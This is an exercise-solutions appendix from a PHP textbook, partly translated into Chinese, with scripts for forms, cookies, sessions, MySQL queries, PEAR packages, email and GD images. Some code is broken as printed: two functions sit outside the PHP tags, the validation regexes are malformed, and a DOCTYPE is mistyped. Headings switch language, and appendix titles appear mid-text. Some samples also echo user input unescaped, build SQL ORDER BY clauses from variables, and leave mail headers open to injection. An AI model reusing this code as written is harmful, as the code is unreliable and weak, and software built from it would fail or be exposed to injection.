要编写猜数字游戏，可以使用隐藏字段来存储电脑想的数字以及剩余猜测次数。具体做法如下：

```php
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
<head>
<title>Guess the Number</title>
<link rel="stylesheet" type="text/css" href="common.css" />
</head>
<body>

<h1>Guess the Number</h1>

<?php
if ( isset( $_POST["submitButton"] ) and isset( $_POST["guess"] ) ) {
processForm();
} else {
displayForm( rand( 1, 100 ) );
}

function processForm() {
$number = (int)$_POST["number"];
$guessesLeft = (int)$_POST["guessesLeft"] - 1;
$guess = (int)$_POST["guess"];

if ( $guess == $number ) {
displaySuccess( $number );
} elseif ( $guessesLeft == 0 ) {
displayFailure( $number );
} elseif ( $guess < $number ) {
displayForm( $number, $guessesLeft, "Too low - try again!" );
} else {
displayForm( $number, $guessesLeft, "Too high - try again!" );
}
}

function displayForm( $number, $guessesLeft=5, $message="" ) {
?>
<form action="" method="post">
<div>
<input type="hidden" name="number" value="<?php echo $number?>" />
<input type="hidden" name="guessesLeft" value="<?php echo $guessesLeft?>" />
<?php if ( $message ) echo "<p>$message</p>" ?>
<p>I'm thinking of a number. You have <?php echo $guessesLeft?> <?php echo ( $guessesLeft == 1 ) ? 'try' : 'tries'?> left to guess it!</p>
<p>What's your guess? <input type="text" name="guess" value="" style="float: none; width: 3em;" /> <input type="submit" name="submitButton" value="Guess" style="float: none;" /></p>
</div>
</form>
<?php
}
?>
function displaySuccess( $number ) {
?>
<h2>Congratulations!</h2>
<p>You guessed my number: <?php echo $number?>!</p>
<form action="" method="post">
<p><input type="submit" name="tryAgain" value="Try Again" style="float: none;" />
</p>
</form>
<?php
}
?>
function displayFailure( $number ) {
?>
<h2>Bad luck!</h2>
<p>You ran out of guesses. My number was <?php echo $number?>!</p>
<form action="" method="post">
<p><input type="submit" name="tryAgain" value="Try Again" style="float: none;" />
</p>
</form>
<?php
}
?>
</body>
</html>
```

### 练习 2 解答

这里的解决方案是使用 `Location:` 标头在提交表单后将浏览器重定向到相应的商店。需要确保脚本在 `Location:` 标头之前不输出任何内容：

```php
<?php
if ( isset( $_POST["submitButton"] ) ) {
switch ( $_POST["store"] ) {
case ".com":
header( "Location: http://www.amazon.com/" );
break;
case ".ca":
header( "Location: http://www.amazon.ca/" );
break;
case ".co.uk":
header( "Location: http://www.amazon.co.uk/" );
break;
}
} else {
displayForm();
}
function displayForm() {
?>
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
<head>
<title>Amazon Store Selector</title>
<link rel="stylesheet" type="text/css" href="common.css" />
</head>
<body>
<h1>Amazon Store Selector</h1>
<form action="" method="post">
<div style="width: 35em;">
<label for="store">Choose your Amazon store:</label>
<select name="store" id="store" size="1">
<option value=".com">Amazon.com</option>
<option value=".ca">Amazon.ca</option>
<option value=".co.uk">Amazon.co.uk</option>
</select>
<div style="clear: both;">
<input type="submit" name="submitButton" id="submitButton" value=
"Visit Store" />
</div>
</div>
</form>
<?php
}
?>
</body>
</html>
```

## 第 10 章

### 练习 1 解答

要记住用户首次访问的时间，可以创建一个存储 time() 返回的当前时间的 cookie。仅在 cookie 不存在时创建它。然后，在后续页面浏览时，只需用 time() 的新值减去 cookie 中存储的时间，然后将结果转换为分钟和秒以供显示：

```php
<?php
if ( !isset( $_COOKIE["firstVisitTime"] ) ) {
setcookie( "firstVisitTime", time(), time() + 60 * 60 * 24 * 365, "/", "" );
}
?>
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
<head>
<title>Remembering the first visit with cookies</title>
<link rel="stylesheet" type="text/css" href="common.css" />
</head>
<body>
<h2>Remembering the first visit with cookies</h2>
<?php if ( isset( $_COOKIE["firstVisitTime"] ) ) {
$elapsedTime = time() - $_COOKIE["firstVisitTime"];
$elapsedTimeMinutes = (int) ( $elapsedTime / 60 );
$elapsedTimeSeconds = $elapsedTime % 60;
?>
<p>Hi there! You first visited this page <?php echo $elapsedTimeMinutes ?>
minute<?php echo $elapsedTimeMinutes != 1 ? "s" : "" ?> and <?php echo
$elapsedTimeSeconds ?> second<?php echo $elapsedTimeSeconds != 1 ? "s" : "" ?>
ago.</p>
<?php } else { ?>
<p>It's your first visit! Welcome!</p>
<?php } ?>
</body>
</html>
```

### 练习 2 解答

不需要大幅修改代码即可使多步表单脚本将表单数据存储在会话中。基本上，向每个处理函数 — processStep1()、processStep2() 和 processStep3() — 添加代码，以将发布的表单数据存储在会话变量中，并修改其余函数（如 setValue() 和 setChecked()），使其在会话中查找数据，而不是在 $_POST 数组中查找。不要忘记在 displayThanks() 函数中也清除会话数据。当然，最后还需要重构脚本，使其仅在调用 session_start() 之后才输出内容：


```php
<?php
session_start();

if ( isset( $_POST["step"] ) and $_POST["step"] >= 1 and $_POST["step"] <= 3 ) {
	call_user_func( "processStep" . (int)$_POST["step"] );
} else {
	displayStep1();
}

function setValue( $fieldName ) {
	if ( isset( $_SESSION[$fieldName] ) ) {
		echo $_SESSION[$fieldName];
	}
}

function setChecked( $fieldName, $fieldValue ) {
	if ( isset( $_SESSION[$fieldName] ) and $_SESSION[$fieldName] == $fieldValue ) {
		echo ' checked="checked"';
	}
}

function setSelected( $fieldName, $fieldValue ) {
	if ( isset( $_SESSION[$fieldName] ) and $_SESSION[$fieldName] == $fieldValue ) {
		echo ' selected="selected"';
	}
}

function processStep1() {
	$_SESSION["firstName"] = $_POST["firstName"];
	$_SESSION["lastName"] = $_POST["lastName"];
	displayStep2();
}

function processStep2() {
	$_SESSION["gender"] = $_POST["gender"];
	$_SESSION["favoriteWidget"] = $_POST["favoriteWidget"];
	if ( isset( $_POST["submitButton"] ) and $_POST["submitButton"] == "< Back" ) {
		displayStep1();
	} else {
		displayStep3();
	}
}

function processStep3() {
	$_SESSION["newsletter"] = $_POST["newsletter"];
	$_SESSION["comments"] = $_POST["comments"];
	if ( isset( $_POST["submitButton"] ) and $_POST["submitButton"] == "< Back" ) {
		displayStep2();
	} else {
		displayThanks();
	}
}

function displayStep1() {
	displayPageHeader();
?>
<h1>Member Signup: Step 1</h1>
<form action="exercise2.php" method="post">
<div style="width: 30em;">
<input type="hidden" name="step" value="1" />
<label for="firstName">First name</label>
<input type="text" name="firstName" id="firstName" value="<?php setValue("firstName") ?>"/>
<label for="lastName">Last name</label>
<input type="text" name="lastName" id="lastName" value="<?php setValue("lastName") ?>"/>
<div style="clear: both;">
<input type="submit" name="submitButton" id="nextButton" value="Next &gt; " />
</div>
</div>
</form>
<?php
}
function displayStep2() {
	displayPageHeader();
?>
<h1>Member Signup: Step 2</h1>
<form action="exercise2.php" method="post">
<div style="width: 30em;">
<input type="hidden" name="step" value="2" />
<label>Your gender</label>
<label for="genderMale">Male</label>
<input type="radio" name="gender" id="genderMale" value="M"<?php setChecked( "gender", "M" ) ?>/>
<label for="genderFemale">Female</label>
<input type="radio" name="gender" id="genderFemale" value="F"<?php setChecked( "gender", "F" ) ?>/>
<label for="favoriteWidget">What's your favorite widget? </label>
<select name="favoriteWidget" id="favoriteWidget" size="1">
<option value="superWidget"<?php setSelected( "favoriteWidget", "superWidget" ) ?>>The SuperWidget</option>
<option value="megaWidget"<?php setSelected( "favoriteWidget", "megaWidget" ) ?>>The MegaWidget</option>
<option value="wonderWidget"<?php setSelected( "favoriteWidget", "wonderWidget" ) ?>>The WonderWidget</option>
</select>
<div style="clear: both;">
<input type="submit" name="submitButton" id="nextButton" value="Next &gt; " />
<input type="submit" name="submitButton" id="backButton" value="&lt; Back" style="margin-right: 20px;" />
</div>
</div>
</form>
<?php
}

function displayStep3() {
	displayPageHeader();
?>
<h1>Member Signup: Step 3</h1>

<form action="exercise2.php" method="post">
<div style="width: 30em;">
<input type="hidden" name="step" value="3" />

<label for="newsletter">Do you want to receive our newsletter?</label>
<input type="checkbox" name="newsletter" id="newsletter" value="yes"<?php setChecked( "newsletter", "yes" )?> />

<label for="comments">Any comments?</label>
<textarea name="comments" id="comments" rows="4" cols="50"><?php setValue( "comments" ) ?></textarea>

<div style="clear: both;">
<input type="submit" name="submitButton" id="nextButton" value="Next &gt; " />
<input type="submit" name="submitButton" id="backButton" value="&lt; Back" style="margin-right: 20px;" />
</div>
</div>
</form>
<?php
}

function displayThanks() {
	$_SESSION = array();
	displayPageHeader();
?>
<h1>Thank You</h1>
<p>Thank you, your application has been received.</p>
<?php
}

function displayPageHeader() {
?>

<!DOCTYPE html PUBLIC "--//W3C//DTD XHTML 1.0 Strict//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
<head>
<title>Membership Form</title>
<link rel="stylesheet" type="text/css" href="common.css" />
</head>
<body>
<?php
}
?>
</body>
</html>
```

## Chapter 11

### Exercise Solution

本方案采用递归方式，遍历顶级目录下的所有子目录，查找指定的文件夹。如果表单已提交（即设置了 $_POST['posted']），脚本会调用递归函数 searchFolder()，并提供开始搜索的顶级目录、要查找的文件夹名称以及一个用于保存匹配结果的数组引用。searchFolder() 会读取当前文件夹中的所有条目，如果发现是文件夹，则递归搜索该文件夹，以此类推。任何匹配的文件夹都会被添加到 $matches 数组中。

最后，脚本会显示所有匹配项，随后显示搜索表单。

```php
<!DOCTYPE html PUBLIC "--//W3C//DTD XHTML 1.0 Strict//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
<head>
<title><?php echo $pageTitle?></title>
<link rel="stylesheet" type="text/css" href="common.css" />
</head>
<body>
<h1>Welcome to Beginning PHP, Chapter 11, Exercise 1</h1>

<?php

define( "TOP_LEVEL_DIR", "." );

if ( isset( $_POST['posted'] ) ) {

// Get the folder to search for
$folderName = isset( $_POST['folderName'] ) ? $_POST['folderName'] : "";

// Search for the folder
echo "<p>Searching for '$folderName' in '" . TOP_LEVEL_DIR . "' ...</p>";
$matches = array();
searchFolder( TOP_LEVEL_DIR, $folderName, $matches );
// Display any matches
if ( $matches ) {
    echo "<h2>The following folders matched your search:</h2>\n<ul>\n";
    foreach ( $matches as $match ) echo ( "<li>$match</li>" );
    echo "</ul>\n";
} else {
    echo "<p>No matches found.</p>";
}
}
```

```php
/**
 * Recursively searches a directory for a subdirectory
 *
 * @param string The path to the directory to search
 * @param string The subdirectory name to search for
 * @param stringref The current list of matches
 */
function searchFolder( $current_folder, $folder_to_find, &$matches )
{
    if ( !( $handle = opendir( $current_folder ) ) ) die( "Cannot open $current_folder." );
    while ( $entry = readdir( $handle ) ) {
        if ( is_dir( "$current_folder/$entry" ) ) {
            if ( $entry != "." && $entry != ".." ) {
                // This entry is a valid folder
                // If it matches our folder name, add it to the list of matches
                if ( $entry == $folder_to_find ) $matches[] = "$current_folder/$entry";
                // Search this folder
                searchFolder( "$current_folder/$entry", $folder_to_find, $matches );
            }
        }
    }
    closedir( $handle );
}
```

```php
// Display the search form
?>
<form method="post" action="">
<div>
    <input type="hidden" name="posted" value="true" />
    <label>Please enter the folder to search for:</label>
    <input type="text" name="folderName" />
    <input type="submit" name="search" value="Search" />
</div>
</form>
</body>
</html>
```

## Chapter 12

### Exercise 1 Solution

要创建 `members` 表，需使用 `CREATE TABLE` 语句。名和姓可以分别存储在两个 `VARCHAR` 字段中，年龄可以放在 `TINYINT UNSIGNED` 字段里（因为人活过 255 岁的可能性极低）。入会日期可以用 `DATE` 字段表示。将字段设置为 `NOT NULL`，因为你不希望任何字段为空（尽管可以说年龄字段可以是可选的）。最后，别忘了创建一个自动递增的 `id` 字段，并将其设为主键。在此情况下，`SMALLINT UNSIGNED` 字段足以胜任。

要插入会员数据，请创建五条 `INSERT` 语句，指定除 `id` 字段外的所有字段，并使用 MySQL 接受的日期格式之一表示入会日期。

创建并填充表的示例如下：

```
USE mydatabase;

CREATE TABLE members (
  id SMALLINT UNSIGNED NOT NULL AUTO_INCREMENT,
  firstName VARCHAR(30) NOT NULL,
  lastName VARCHAR(30) NOT NULL,
  age TINYINT UNSIGNED NOT NULL,
  joinDate DATE NOT NULL,
  PRIMARY KEY (id)
);

INSERT INTO members ( firstName, lastName, age, joinDate ) VALUES ( 'Jo',
'Scrivener', 31, '2006-09-03' );
INSERT INTO members ( firstName, lastName, age, joinDate ) VALUES ( 'Marty',
'Pareene', 19, '2007-01-07' );
INSERT INTO members ( firstName, lastName, age, joinDate ) VALUES ( 'Nick',
'Blakeley', 23, '2007-08-19' );
INSERT INTO members ( firstName, lastName, age, joinDate ) VALUES ( 'Bill',
'Swan', 20, '2007-06-11' );
INSERT INTO members ( firstName, lastName, age, joinDate ) VALUES ( 'Jane',
'Field', 36, '2006-03-03' );
```

### Exercise 2 Solution

要完成此练习，可以编写一个与之前读取 `fruit` 表时类似的 PHP 脚本。主要区别在于，你需要在 `SELECT` 语句中添加 `WHERE` 子句，以确保只选取年龄小于 25 岁的会员。你可以直接显示 MySQL 返回的入会日期（关于日期格式化，将在后面几章中介绍）：


```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN"
    "http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
<head>
    <title>Book Club Members Under 25</title>
    <link rel="stylesheet" type="text/css" href="common.css" />
</head>
<body>

<h1>Book Club Members Under 25</h1>

<?php
    $dsn = "mysql:dbname=mydatabase";
    $username = "root";
    $password = "mypass";

    try {
        $conn = new PDO( $dsn, $username, $password );
        $conn->setAttribute( PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION );
    } catch ( PDOException $e ) {
        echo "Connection failed: " . $e->getMessage();
    }

    $sql = "SELECT * FROM members WHERE age < 25";

    echo "<table><tr><th>First Name</th><th>Last Name</th><th>Age</th><th>Joined</th></tr>";

    try {
        $rows = $conn->query( $sql );
        foreach ( $rows as $row ) {
            echo "<tr><td>" . $row["firstName"] . "</td><td>" . $row["lastName"] . "</td><td>" . $row["age"] . "</td><td>" . $row["joinDate"] . "</td></tr>";
        }
    } catch ( PDOException $e ) {
        echo "Query failed: " . $e->getMessage();
    }

    echo "</table>";
    $conn = null;

?>
</body>
</html>
```

## 第13章

### 练习1答案

为了提取男性和女性访问者的总页面浏览量，您需要将members表与accessLog表连接。然后可以使用sum()函数对numVisits列求和，并使用GROUP BY子句按性别分组结果。使用表别名和列别名有助于保持查询和结果集的可读性：

```
mysql> SELECT m.gender, sum( al.numVisits ) AS totalPageViews FROM members m,
accessLog al WHERE m.id = al.memberId GROUP BY m.gender;
```

| 性别 | 总页面浏览量 |
|------|-------------|
| m | 6 |
| f | 3 |

2 行记录 (0.00 秒)

### 练习2答案

为了允许getMembers()方法按兴趣过滤，您只需修改几行代码。首先，指定一个名为$interest的可选参数，并设置默认值（例如空字符串）。在方法内部，检查是否为$interest提供了值。如果提供了值，则向SELECT查询添加WHERE子句以过滤otherInterests字段。请记住使用LIKE运算符，以便搜索整个字段中的兴趣，并且出于安全考虑，为$interest值使用占位符。

此外，如果为$interest提供了值，则再次调用PDOStatement::bindValue()将$interest值传递给查询，请记住将值包裹在% ... %通配符中，以便搜索整个字段。

以下代码展示了getMembers()方法，其中添加或更改的行已高亮显示：

```
public static function getMembers( $startRow, $numRows, $order, $interest = "" ) {
$conn = parent::connect();
$interestClause = $interest ? " WHERE otherInterests LIKE :interest" : "";
$sql = "SELECT SQL_CALC_FOUND_ROWS * FROM " . TBL_MEMBERS . "$interestClause
ORDER BY $order LIMIT :startRow, :numRows";
try {
$st = $conn->prepare( $sql );
$st->bindValue( ":startRow", $startRow, PDO::PARAM_INT );
$st->bindValue( ":numRows", $numRows, PDO::PARAM_INT );
if ( $interest ) $st->bindValue( ":interest", "%$interest%", PDO::PARAM_STR );
$st->execute();
$members = array();
foreach ( $st->fetchAll() AS $row ) {
$members[] = new Member( $row );
}
$st = $conn->query( "SELECT found_rows() as totalRows" );
$row = $st->fetch();
parent::disconnect( $conn );
return array( $members, $row["totalRows"] );
} catch ( PDOException $e ) {
parent::disconnect( $conn );
die( "Query failed: " . $e->getMessage() );
}
}
```

## 第14章

### 练习1答案

为了获取按流行度排序的类型列表，您需要统计有多少成员将每种类型列为最爱。然后只需使用GROUP BY子句按类型对结果进行分组，并使用ORDER BY子句对结果进行排序：

```
mysql> SELECT favoriteGenre AS genre, count(favoriteGenre) AS popularity FROM
members GROUP BY genre ORDER BY popularity DESC;
```

| 类型 | 流行度 |
|------|--------|
| crime | 2 |
| thriller | 1 |
| romance | 1 |
| horror | 1 |
| sciFi | 1 |
| nonFiction | 1 |

6 行记录 (0.00 秒)

### 练习2答案

您已经创建了LogEntry::deleteAllForMember()，这是一个删除特定成员所有日志条目的方法。因此，您只需在成员编辑页面添加按钮，然后创建一个执行删除操作的函数即可。

## 附录A：练习答案

以下是view_member.php脚本修订版中的一些代码片段，其中包含“清除访问日志”功能。新添加的代码行已高亮显示。

```
...
if ( isset ( $_POST["action"] ) and $_POST["action"] == "Save Changes" ) {
    saveMember();
} elseif ( isset ( $_POST["action"] ) and $_POST["action"] == "Delete Member" ) {
    deleteMember();
} elseif ( isset ( $_POST["action"] ) and $_POST["action"] == "Clear Access Log" ) {
    clearLog();
} else {
    displayForm( array(), array(), $member );
}
...
```

```
...
<div style="clear: both;">
<input type="submit" name="action" id="saveButton" value="Save Changes" />
<input type="submit" name="action" id="deleteButton" value="Delete Member"
style="margin-right: 20px;" />
<input type="submit" name="action" id="clearLogButton" value="Clear
Access Log" style="margin-right: 20px;" />
</div>
...
```

```
...
function deleteMember() {
    $member = new Member( array(
        "id" => isset ( $_POST["memberId"] ) ? (int) $_POST["memberId"] : "",
    ) );
    LogEntry::deleteAllForMember( $member->getValue( "id" ) );
    $member->delete();
    displaySuccess();
}
```

```
function clearLog() {
    $id = isset ( $_POST["memberId"] ) ? (int) $_POST["memberId"] : "";
    LogEntry::deleteAllForMember( $id );
    displaySuccess();
}
```

```
function displaySuccess() {
...
```

## 第15章

### 练习1答案

Numbers_Roman是一个非常简单的PEAR包。您可以在http://pear.php.net/package/Numbers_Roman/docs/latest/找到其文档。

第一步是按常规方式安装该包：

```
$ pear install Numbers_Roman
downloading Numbers_Roman-1.0.2.tgz ...
Starting to download Numbers_Roman-1.0.2.tgz (6,210 bytes)
.....done: 6,210 bytes
install ok: channel://pear.php.net/Numbers_Roman-1.0.2
```

该包提供一个仅包含两个静态方法的类：

- Numbers_Roman::toNumber() 将提供的罗马数字转换为其阿拉伯数字等效值。

- Numbers_Roman::toNumeral() 将作为第一个参数提供的数字转换为罗马数字。第二个参数默认为true，以大写显示数字；设置为false则以小写显示。第三个参数也默认为true，并指定如果数字超过3999（罗马数字系统所要求的），则应输出带上划线的HTML标记；设置为false以关闭任何上划线标记。

对于本练习，您需要使用Numbers_Roman::toNumeral()。您只需创建一个遍历1到100整数的循环，对每个整数调用Numbers_Roman::toNumeral()并输出结果即可：

```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
<head>
<title>1 to 100 in Roman numerals</title>
<link rel="stylesheet" type="text/css" href="common.css" />
</head>
<body>

<h1>1 to 100 in Roman numerals</h1>
<p>

<?php

require_once( "Numbers/Roman.php" );

for ( $i=1; $i<=100; $i++ ) {
    echo Numbers_Roman::toNumeral( $i, true, true ) . "<br />";
}
?>

</p>
</body>
</html>
```

### 练习2答案

既然您已经知道如何同时使用HTML_QuickForm（本章前面示例中）和Numbers_Roman（上一练习中），那么本练习您应该毫无问题。您需要创建一个新的HTML_QuickForm对象，用转换数字字段和一个转换按钮填充它，并可能添加一个验证规则以检查用户是否输入了数字。然后只需检查输入的数字是阿拉伯数字还是罗马数字（为此可以使用PHP的is_numeric()函数），并运行相应的转换。

以下是一个示例解决方案。此脚本在convertNumber()函数中包含几行额外代码，以出于安全原因过滤用户输入：

```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
<head>
<title>Roman numerals converter</title>
</head>
<body>
<h1>Roman numerals converter</h1>
<?php
require_once( "HTML/QuickForm.php" );
require_once( "Numbers/Roman.php" );
$form = new HTML_QuickForm( "convertForm", "get", "", "", null, true );
$form->removeAttribute( "name" );
$form->addElement( "text", "number", "Number (in Arabic or Roman format)" );
$form->addElement( "submit", "convertButton", "Convert" );
$form->addRule( "number", "Please enter a number", "required" );

if ( $form->isSubmitted() and $form->validate() ) {
	$form->process( "convertNumber" );
}

echo $form->toHtml();

function convertNumber( $values ) {
	$originalNumber = $values["number"];

	if ( is_numeric( $originalNumber ) ) {
		$numerals = "Roman";
		$originalNumber = (int) $originalNumber;
		$convertedNumber = Numbers_Roman::toNumeral( $originalNumber, true, true );
	} else {
		$numerals = "Arabic";
		$originalNumber = preg_replace( "/[^IVXLCDM]/i", "", $originalNumber );
		$convertedNumber = Numbers_Roman::toNumber( $originalNumber );
	}

	echo "<p>$originalNumber in $numerals numerals is: $convertedNumber.</p>";
}
?>
</body>
</html>


## 第 16 章

## 练习 1 解答

要编写一个计算给定月份中工作日数量的函数，可以采用以下方法：

- 1. 计算该月的总天数。
- 2. 遍历每一天并测试是否为工作日。如果是，则增加计数器。
- 3. 返回计数器的值。

下面是一种可能的解决方案：

```html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
<head>
<title>Number of weekdays in a month</title>
<link rel="stylesheet" type="text/css" href="common.css" />
</head>
<body>
<h1>Number of weekdays in a month</h1>
<?php
function weekdaysInMonth( $year, $month ) {
$date = mktime( 0, 0, 0, $month, 1, $year );
$daysInMonth = idate( "t", $date );
$weekdays = 0;
for ( $d = 1; $d <= $daysInMonth; $d++ ) {
$date = mktime( 0, 0, 0, $month, $d, $year );
$dayOfWeek = idate( "w", $date );
if ( $dayOfWeek != 0 && $dayOfWeek != 6 ) $weekdays++;
}
return $weekdays;
}
$weekdays = weekdaysInMonth( 1997, 3 );
echo "<p>March 1997 contained $weekdays weekdays.</p>";
?>
</body>
</html>
```

## 练习 2 解答

修改联系表单脚本以允许访问者向任意收件人发送电子邮件非常简单。你只需添加一个用于收件人电子邮件地址的字段，然后将该电子邮件地址传递给 `mail()` 函数。对于副本收件人，你可以添加一个可选的 CC 电子邮件地址字段。然后，如果该字段被填写，你可以为消息添加适当的 `Cc:` 标头。

下面是包含这些更改的 `contact.php` 脚本版本（更改的行已高亮显示）：

```html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
<head>
<title>Send an Email Message</title>
<link rel="stylesheet" type="text/css" href="common.css" />
<style type="text/css">
.error { background: #d33; color: white; padding: 0.2em; margin: 0.2em 0 0.2em 0;
font-size: 0.9em; }
fieldset { border: none; padding: 0; }
ol {list-style-type: none; padding: 0; margin: 0; }
input, select, textarea { float: none; margin: 1em 0 0; width: auto; }
div.element { float: right; width: 57%; }
div.element label { display: inline; float: none; }
select { margin-right: 0.5em; }
span.required { display: none; }
</style>
</head>
<body>
<h1>Send an Email Message</h1>
<?php
require_once ( "HTML/QuickForm.php" );
require_once ( "HTML/QuickForm/Renderer/Tableless.php" );
$form = new HTML_QuickForm( "form", "post", "exercise2.php", "", array( "style" =>
"width: 30em;" ), true );
$form->removeAttribute( "name" );
$form->setRequiredNote( "" );
$form->addElement( "text", "firstName", "First name" );
$form->addElement( "text", "lastName", "Last name" );
$form->addElement( "text", "emailAddress", "Email address" );
$form->addElement( "text", "toEmailAddress", "To" );
$form->addElement( "text", "ccEmailaddress", "CC (optional)" );
$form->addElement( "text", "subject", "Message subject" );
$form->addElement( "textarea", "message", "Message", array( "rows" => 10, "cols" =>
50 ) );
$form->addElement( "submit", "sendButton", "Send Message" );
$form->addRule( "firstName", "Please enter your first name", "required" );
$form->addRule( "firstName", "The First Name field can contain only letters,
 digits, spaces, apostrophes, and hyphens", "regex", "/^[ \'\\.-a-zA-Z0-9-+$/" );
$form->addRule( "lastName", "Please enter your last name", "required" );
$form->addRule( "lastName", "The Last Name field can contain only letters, digits,
 spaces, apostrophes, and hyphens", "regex", "/^[ \'\\.-a-zA-Z0-9-+$/" );
$form->addRule( "emailAddress", "Please enter an email address", "required" );
$form->addRule( "emailAddress", "Please enter a valid email address", "email" );
$form->addRule( "toEmailAddress", "Please enter an email address", "required" );
$form->addRule( "toEmailAddress", "Please enter a valid email address", "email" );
$form->addRule( "toEmailAddress", "Please enter a valid email address", "email" );
$form->addRule( "ccEmailAddress", "Please enter a valid email address", "email" );
$form->addRule( "subject", "Please enter a message subject", "required" );
$form->addRule( "subject", "Your subject can contain only letters, digits, spaces,
 apostrophes, commas, periods, and hyphens", "regex", "/^[ \'\\.,\\-a-zA-Z0-9-+$/" );
$form->addRule( "message", "Please enter your message", "required" );
if ( $form->isSubmitted() and $form->validate() ) {
 $form->process( "sendMessage" );
} else {
echo "<p>Please fill in all the fields below ( CC field is optional), then click
 Send Message to send your email.</p>";
$renderer = new HTML_QuickForm_Renderer_Tableless();
$form->accept( $renderer );
echo $renderer->toHtml();
}
function sendMessage( $values ) {
$headers = "From: ". $values['firstName'] . " ". $values['lastName'] . " <".
 $values['emailAddress'] . " >\r\n";
if ( $values["ccEmailAddress"] ) $headers .= "Cc: ". $values["ccEmailAddress"] .
 "\r\n";
if ( mail( $values["toEmailAddress"], $values["subject"], $values["message"],
 $headers ) ) {
echo "<p>Your message has been sent.</p>";
} else {
echo '<p>Sorry, your message could not be sent.</p>';
echo '<p>Please <a href="javascript:history.go(-1)">go back</a> to the form,
 check the fields and try again.</p>';
}
}
?>
</body>
</html>
```

## 第 17 章

## 练习 1 解答

成功完成此练习的唯一诀窍是记住图像的左上角是 (0,0)。这意味着你必须从图像的宽度和高度中分别减去 1，以分别得到图像的最右位置和最底位置。以下是绘制黑色边框的代码：

```php
<?php
$myImage = imagecreatefromjpeg( "hook.jpg" );
$black = imagecolorallocate( $myImage, 0, 0, 0 );
$width = imagesx( $myImage );
$height = imagesy( $myImage );
imagerectangle( $myImage, 0, 0, $width-1, $height-1, $black );
header( "Content-type: image/jpeg" );
imagejpeg( $myImage );
imagedestroy( $myImage );
?>
```

如果你的脚本与此类似，则输出应在图像周围包含一个漂亮、干净的边框，如图 A-1 所示。


图 A-1

## 练习 2 解答

以图形方式显示磁盘空间有两种显而易见的方法。最快且最简单的方法是创建一个简单的水平刻度：由两个颜色块组成的矩形，一种颜色表示磁盘上的已用空间，另一种颜色表示可用空间。这可以让你快速了解磁盘使用情况。具体代码如下。

将图像的宽度和高度存储在脚本中的变量内始终是一种良好的做法。这样，如果你想更改图像的大小，可以在脚本开头轻松完成，并且你使用图像宽度和高度进行的任何计算都会自动更新。

```php
<?php
$iWidth = 500;
$iHeight = 50;
$myImage = imagecreate( $iWidth, $iHeight );
$white = imagecolorallocate( $myImage, 255, 255, 255 );
$black = imagecolorallocate( $myImage, 0, 0, 0 );
$red = imagecolorallocate( $myImage, 255, 0, 0 );
$green = imagecolorallocate( $myImage, 0, 255, 0 );
$diskTotal = disk_total_space( "/" );
$diskFree = disk_free_space( "/" );
imagerectangle( $myImage, 0, 0, $iWidth - 1, $iHeight - 1, $black );
```


## 附录 A：练习题解答

`$threshold` 变量将用于在 x 轴上标记位置，即你在图表中从已用磁盘空间过渡到空闲磁盘空间的位置。因为已用磁盘空间通常在此类图表的左侧表示，所以你首先需要计算该空间——它是总磁盘空间减去空闲磁盘空间。将其除以磁盘空间总量，得到 0 到 1 之间的数字，然后将其乘以图像的宽度。从图像宽度中减去 2，因为你已经用了 2 像素绘制图像边框；然后向整体阈值加上 1，因为像素从 0 开始。

```php
$threshold = intval( ( ( $diskTotal - $diskFree ) / $diskTotal )
* ( $iWidth-2 ) ) + 1;
```

例如，如果磁盘大小为 400 字节，你已使用 200 字节，则 200 除以 400 等于 0.5。如果图像宽度为 500 像素，你将把 0.5 和 498（宽度减去 2 个用于边框的像素）相乘得到 249。然后你加上 1 得到 250：即横跨图像一半的 x 像素位置。

用红色矩形填充图像，从左侧一直延伸到阈值，以表示已用磁盘空间：

```php
imagefilledrectangle( $myImage, 1, 1, $threshold, ( $iHeight-2 ), $red );
```

并从阈值开始用绿色矩形表示空闲磁盘空间：

```php
imagefilledrectangle( $myImage, ( $threshold + 1 ), 1, ( $iWidth - 2 ),
$iHeight-2, $green );
```

按通常方式完成脚本。

```php
header( "Content-type: image/png" );
imagepng( $myImage );
imagedestroy( $myImage );
?>
```

图 A-2 显示了一个示例结果。


图 A-2

本练习的替代方案是将空间绘制为饼图。以下代码正是这样做。

与计算阈值不同，你需要计算一个角度数值。计算方式相同，只是你不乘以图像宽度，而是乘以 360——即圆周的度数。

```php
<?php
$iWidth = 200;
$iHeight = 200;
$myImage = imagecreate( $iWidth, $iHeight );
